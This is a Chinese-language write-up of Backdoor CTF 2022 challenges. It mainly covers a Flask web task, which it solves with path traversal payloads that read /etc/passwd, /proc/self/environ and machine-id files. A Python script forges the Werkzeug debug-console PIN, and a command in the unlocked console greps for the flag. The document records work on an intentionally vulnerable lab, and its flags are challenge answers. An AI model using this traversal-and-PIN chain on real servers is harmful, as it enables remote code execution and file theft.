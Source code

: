 # Backdoor CTF
###### tags: `CTF`

## Misc
### Welcome
![](https://i.imgur.com/s7NhI6j.png)

discord -> 搜尋 flag ->

![](https://i.imgur.com/s95KgRT.png)

flag{w3lc0m3_70_b4ckd00r_2022}

## Web
### (X) Hack the planet

以下參考別人的解法

一進入首頁，發現什麼東西都沒有

![](https://i.imgur.com/Bq8Lf8Z.png)

從標題的 Konsole 推測是跟 Flask 的 debug mode console 有關，發現確實有 `/console` 的 endpoint，需要 pin

![](https://i.imgur.com/alq3Fec.png)

因此，需要有一個讀檔漏洞幫我們取得必要的資訊

透過通靈出一個 `/admin` 路徑，發現有 `/article` 路徑可以使用

![](https://i.imgur.com/ma99cYc.png)

照著指示發現有 No such file or directory 的錯誤，這邊應該有進行讀檔操作

![](https://i.imgur.com/HqCEGMl.png =500x)

發現 name 參數就是讀檔案的路徑，且有 path traversal 漏洞，嘗試讀取 `/etc/passwd` 成功

```
?name=../../../../etc/passwd
```

![](https://i.imgur.com/czOHkO9.png)

參考 [這篇](https://zhuanlan.zhihu.com/p/549307995) 以及 [這篇](https://inhann.top/2021/02/25/flask_newer/#pin-rce) 文章，發現需要一些參數協助計算 pin

在 username 部分，使用讀取 `/proc/self/environ` 看 home 路徑，發現是 `r00t-user`

```
name=../../../../proc/self/environ
```

![](https://i.imgur.com/iW06eZq.png)

另外也得知 python 版本為 3.9

modname, appname 在原程式碼中看不到有設定的指令，推測是使用預設的 `flask.app` 和 `Flask`

moddir 根據上面的 python 版本，得出為 `/usr/local/lib/python3.9/site-packages/flask/app.py`

uuidnode 讀取 `/sys/class/net/eth0/address`，得出為 `02:42:ac:11:00:03`，當然後面要轉成 10 進位數

![](https://i.imgur.com/8vJNABz.png)

machine_id 的部分比較複雜，需要讀取 2 (docker 環境) 或 3 (非 docker 環境) 個檔案，在此題中可得知是在 docker 環境中，所以需要讀取 `/proc/sys/kernel/random/boot_id` 和 `/proc/self/cgroup` 的內容並拼接

`boot_id`: `d5a09294-c0e7-4cf9-a10b-4cdb79f8620c`

![](https://i.imgur.com/MnvjAor.png)

`cgroup`: `590c806c6d83846eed0e2eb62c5940bd3c34b2d70dc4bf5ff54766addfd69741`

![](https://i.imgur.com/KpQxUxe.png)

因此可透過這些資訊計算出 flask console pin，以下是計算的程式

:::spoiler solve.py
```python=
import hashlib
from itertools import chain
from Crypto.Util.number import bytes_to_long

private_bits = [str(bytes_to_long(bytes.fromhex("02:42:ac:11:00:03".replace(":", "")))),'d5a09294-c0e7-4cf9-a10b-4cdb79f8620c'+"590c806c6d83846eed0e2eb62c5940bd3c34b2d70dc4bf5ff54766addfd69741"]
probably_public_bits = ['r00t-user','flask.app','Flask','/usr/local/lib/python3.9/site-packages/flask/app.py']


h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)


h.update(b"cookiesalt")
cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv, cookie_name)
```
:::

![](https://i.imgur.com/EJdUBLz.png)

計算結果為 `823-272-760`，輸入後也成功獲得 console 操作權限

接著就是找 flag 時間，使用 grep 搜尋後，找到 flag

```python!
print(subprocess.run(["grep", "-r", "flag{", "/usr"], capture_output=True).stdout.decode())
```

![](https://i.imgur.com/Owrs8Hb.png)

flag{wh0_g4v3_y0u_my_fl4sk_p1n_23dde36g}
